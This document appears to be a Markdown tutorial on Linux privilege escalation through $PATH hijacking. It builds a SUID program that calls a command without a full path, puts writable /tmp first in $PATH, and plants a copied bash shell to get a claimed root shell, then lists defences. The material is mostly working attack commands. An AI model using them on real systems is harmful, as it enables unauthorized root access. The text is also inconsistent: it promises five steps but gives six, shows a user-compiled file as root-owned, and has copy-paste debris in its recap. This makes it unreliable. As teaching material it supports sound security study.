 # PATH

This section demonstrates how to exploit misconfigurations in the `$PATH` environment variable to escalate privileges by hijacking executable lookups. This method relies on writable directories in `$PATH` and improperly secured scripts.

* `$PATH` is an environment variable in Linux. It tells the system where to look for programs when you run a command.
* For example, if you run `ls`, the system looks for `ls` in the directories listed in `$PATH`.

To see your current `$PATH`, run:

```bash
echo $PATH
```

Example Output:

```bash
/usr/local/bin:/usr/bin:/bin:/usr/local/sbin:/usr/sbin:/sbin
```

***

### Exploiting `$PATH` in 5 Simple Steps

We’ll create a situation where we trick the system into running a malicious program by taking advantage of a writable folder in `$PATH`.

***

#### Step 1: Check for Writable Directories

Find directories where your user can write:

```bash
find / -writable 2>/dev/null
```

Example Output:

```bash
/tmp
/home/yourusername
```

If any of these writable directories are in `$PATH`, we can exploit them. If not, we'll add one (see Step 4).

***

#### Step 2: Check for Vulnerable Programs

Some programs or scripts might call other programs without using their full path. For example:

```c
#include <stdlib.h>

int main() {
    system("example-command");
    return 0;
}
```

When this program runs, it looks for `example-command` in the directories listed in `$PATH`. If we create a malicious `example-command`, the program will run it instead of the intended one.

***

#### Step 3: Compile the Vulnerable Program

Compile the program:

```bash
gcc -o vulnerable vulnerable.c
```

Set the SUID bit to allow it to run with elevated privileges:

```bash
sudo chmod u+s vulnerable
```

Verify the permissions:

```bash
ls -l vulnerable
```

Output:

```bash
-rwsr-xr-x 1 root root 16768 Jan 11 15:42 vulnerable
```

***

#### Step 4: Add a Writable Directory to `$PATH`

If a writable directory (like `/tmp`) is not in `$PATH`, add it:

```bash
export PATH=/tmp:$PATH
```

Check the updated `$PATH`:

```bash
echo $PATH
```

Output:

```bash
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/sbin:/usr/sbin:/sbin
```

***

#### Step 5: Create the Malicious Program

Create a fake program called `example-command` in `/tmp`. This program will run instead of the real one.

Copy `/bin/bash` (a shell) and rename it:

```bash
cp /bin/bash /tmp/example-command
chmod +x /tmp/example-command
```

Verify:

```bash
ls -l /tmp/example-command
```

Output:

```bash
-rwxr-xr-x 1 username username 1183448 Dec 23 15:43 /tmp/example-command
```

***

#### Step 6: Execute the Vulnerable Program

Run the vulnerable program:

```bash
./vulnerable
```

If successful, you’ll get a root shell:

```bash
# whoami
root
```

***

### Why Does This Work?

1. The vulnerable program runs `example-command` from `$PATH`.
2. `$PATH` includes `/tmp` (or another writable directory you added).
3. The program runs our malicious `/tmp/example-command` instead of the real one, and it inherits root privileges because of the SUID bit.

***

### How to Defend Against This?

* **Avoid writable directories in `$PATH`.**
* **Use absolute paths** in scripts and programs (e.g., `/usr/bin/ls` instead of `ls`).
* **Remove unnecessary SUID bits** on programs.

***

### Key Commands Recap:

*   View `$PATH`:

    ```bash
    bashCopy codeecho $PATH
    ```
*   Find writable directories:

    ```bash
    bashCopy codefind / -writable 2>/dev/null
    ```
*   Add `/tmp` to `$PATH`:

    ```bash
    bashCopy codeexport PATH=/tmp:$PATH
    ```
*   Create malicious program:

    ```bash
    bashCopy codecp /bin/bash /tmp/example-command
    chmod +x /tmp/example-command
    ```
*   Run the vulnerable program:

    ```bash
    bashCopy code./vulnerable
    ```
